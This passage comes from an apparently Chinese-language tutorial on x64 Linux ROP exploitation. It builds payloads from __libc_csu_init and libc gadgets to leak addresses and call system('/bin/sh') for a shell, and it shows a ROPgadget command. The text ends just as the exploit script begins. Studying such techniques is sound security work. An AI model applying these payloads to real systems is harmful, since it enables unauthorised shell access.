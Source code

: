 
从上图的`_dl_runtime_resolve_xsave`汇编代码中可以看到，从`0x00007ffff7ded2d9`开始，我们可以一次控制所有寄存器的参数，最后通过`jmp r11`进行函数调用，而`r11`可以在`0x00007ffff7ded2ca`由`rax`传入。

总体的思路还是通过调用`system`函数将`/bin/sh`的字符串的地址传入，这2个地址都通过在`libc.so`中的偏移来计算

<pre>payload1 = "\x90"*136 + (return_addr=__libc_csu_init+5a=0x4005ea) + (rbx=0) + (rbp=1)
payload1 += (r12=write_got) + (r13=1) + (r14=write_got) + (r15=8) + (0x4005d0)
payload1 += "b"*56 + (return_addr=main)</pre>

测试功能正常：

![linux64rop]({{ '/images/201804/linux_64_rop_3_1.png' | prepend: site.baseurl }})

`payload1`我们就可以成功获取到`system`和`/bin/sh`的地址，以及`libc`的基地址,接下来我们需要调用`system`函数，首先通过`pop rax;ret`将system的地址传入到rax，之后再跳转到`0x00007ffff7ded2ca`将`rax`传入`r11`,所以我们还需要获取`_dl_runtime_resolve_xsave`的基地址，可以通过程序的`plt`表中的`_GLOBAL_OFFSET_TABLE_+0x10`获取

![linux64rop]({{ '/images/201804/linux_64_rop_3_2.png' | prepend: site.baseurl }})

构造payload2获取`_dl_runtime_resolve_xsave`的基地址.

<pre>payload2 = "\x90"*136 + (return_addr=__libc_csu_init+5a=0x4005ea) + (rbx=0) + (rbp=1)
payload2 += (r12=write_got) + (r13=1) + (r14=_dl_runtime_resolve_xsave=0x601010) + (r15=8) + (0x4005d0)
payload2 += "b"*56 + (return_addr=main)</pre>

最后一步基于我们所有获取到的信息开始调用`system`获取`shell`

<pre>payload3 = "\x90"*136 + (return_addr=pop_rax_ret_addr) + (system_addr) + (_dl_runtime_resolve_xsave+138) + (rax=0) + (rcx=0) + (rdx=0) + (rsi=0) + (binsh_addr) + (r8) + r(r9)</pre>

这个就是payload3的基本布局.

一切都准备就绪，但是不知道什么原因在执行到`0x00007ffff7ded2d4 <+148>:	xrstor [rsp+0x40]`程序直接退出，而且正常应该是执行`_dl_runtime_resolve`, 但是我换了2个环境分别是`_dl_runtime_resolve_xsave`和`_dl_runtime_resolve_avx`。均无法正常执行payload， 如果是正常的`_dl_runtime_resolve`可定可以拿到shell的

所以我这里就另外构造了一个payload4来继续完成x64环境的利用，通过`ROPgadget`命令

	ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6  --only 'pop|ret'

意外发现了`pop rdi;ret`,这条指令是在`init_cacheinfo+239`。

![linux64rop]({{ '/images/201804/linux_64_rop_3_3.png' | prepend: site.baseurl }})

再配合着`_init`中的`call rax`和`pop rax;ret`，就可以成功调用`system`函数

![linux64rop]({{ '/images/201804/linux_64_rop_3_4.png' | prepend: site.baseurl }})

因此最终我们的payload4为：

<pre>payload4 = "\x90"*136 + (return_addr=pop_rax_ret) + (system_addr)
payload4 += (pop_rdi_ret) + (binsh_addr)
payload4 += (call_rax)</pre>

最终整合所有的payload，利用脚本如下(payload3在脚本中没有使用)：

<pre>#!/usr/bin/python
